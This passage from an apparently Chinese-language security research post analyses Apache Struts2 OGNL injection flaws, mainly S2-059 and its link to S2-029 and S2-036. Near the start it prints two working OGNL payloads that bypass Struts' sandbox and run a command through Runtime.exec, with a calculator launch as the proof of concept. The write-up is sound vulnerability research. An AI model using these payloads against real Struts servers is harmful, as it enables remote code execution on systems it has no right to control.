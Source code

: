 第二个请求用来发送 payload

```
(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))
```

或者写在同一个请求中发送两次也可：

```
%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')))}
```


# S2-059

与 S2-029/S2-036 类似的漏洞点。

> 影响版本：Struts 2.0.0 - Struts 2.5.20
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-059
> 描述：不正确的给标签属性添加 OGNL 解析，可能会造成二次解析导致 RCE。

这个漏洞通俗来讲，就是用户在配置模板或者配置文件时，对一些属性和参数使用 “${}” 和 “%{}” 包裹，进行强制计算， 就会导致 OGNL 二次解析。

早在 S2-029 和 S2-036 就有了类似的安全公告，但是我没有去做分析，因为此类漏洞的主要成因是用户的配置错误，就好像 SQL 注入漏洞的成因是用户把不受信任的输入带入了数据库查询语句一样，你只能让开发者背锅，你没办法说是框架的锅。而之前的 S2-012、S2-013、S2-014、S2-015，也可以归结到此类漏洞范围中。

其中 S2-029 官方描述受影响的标签为：

```html
<s:i18nname="%{#request.params}">su18</s:i18n>
<s:textname="%{#request.params}">su18</s:text>
```

S2-036 则描述 tag 内属性使用 `%{...}` 会导致 RCE。

而 S2-059 也是同样的漏洞。描述受影响的标签为 `<s:a id="%{id}">S2-059</s:a>`。简单搭建一个测试环境试一下：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296478.png" style="zoom:50%;" />

这个漏洞的实际触发还是在解析标签时由 ComponentTagSupport 的子类（也就是各个标签不同类型）在使用 start 方法解析时，调用了 `Component#findString` 方法导致了表达式的解析。

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296486.png" style="zoom:50%;" />

漏洞触发和调用过程之前都分析过，都是相似的，在这里就不重复了。我们同时关注一下这个漏洞影响的最高版本 Struts 2.5.20 版本中的安全更新。

在 Struts 2.5.17 之后，官方更新了 excludedClasses 和 excludedPackageNames，在 excludedClasses 中移除了 ognl 包中的内容，但是在 excludedPackageNames 中加入了 `com.opensymphony.xwork2.ognl.` 。

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296490.png" style="zoom:50%;" />

OnglUtil 中各个属性的 set 方法由 public 改为了 protected。包括三个黑名单属性值，此时我们将不能直接调用 set 方法。
